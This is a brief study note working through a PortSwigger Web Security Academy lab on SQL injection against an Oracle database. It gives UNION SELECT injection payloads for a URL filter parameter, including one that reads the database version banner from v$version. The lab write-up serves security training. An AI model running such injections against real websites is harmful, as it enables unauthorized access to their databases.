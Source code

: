 https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle

`UNION SELECT` should be used with two or more selections, as we see in [[lab-determine-number-of-columns]]. 

So we need to use the selection, like just before.
`/filter?category='+UNION+SELECT+NULL,NULL,NULL--`
But this won't work.
As the web application is using ORACLE as RDBMS, we need to adjust the syntax slightly
```url
%27+UNION+SELECT+NULL,null+FROM+dual--
```
For further information explore the cheat sheet https://portswigger.net/web-security/sql-injection/cheat-sheet
And after then we corroborate we should check the version using `v$version`, so just let's add it to the union select
```url
%27+UNION+SELECT+banner,null+FROM+v$version--
```
